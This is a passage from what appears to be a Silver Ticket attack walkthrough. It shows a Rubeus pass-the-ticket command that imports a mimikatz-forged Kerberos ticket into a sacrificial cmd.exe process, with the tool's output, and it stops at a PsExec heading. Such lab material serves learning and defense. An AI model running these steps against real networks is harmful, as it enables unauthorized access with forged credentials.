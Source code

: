 


This Rubeus action [createnetonly](https://github.com/GhostPack/Rubeus#createnetonly) and the flag **/show**, will open the program we specify for **/program:**, in this case, **cmd.exe**. That new window is our **sacrificial process**, as it doesn't have the creds of our current user. We will import the **sql01.kirbi ticket** we forged with mimikatz using this window as follows:



## Import the Ticket in the New cmd.exe Process 



	C:\Tools>.\Rubeus.exe ptt /ticket:sql01.kirbi

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v2.2.2


	[*] Action: Import Ticket
	[+] Ticket successfully imported!


![Import Ticket](/Silver-Ticket/images/Import-Ticket.png) 



## Using the New cmd.exe with PsExec 


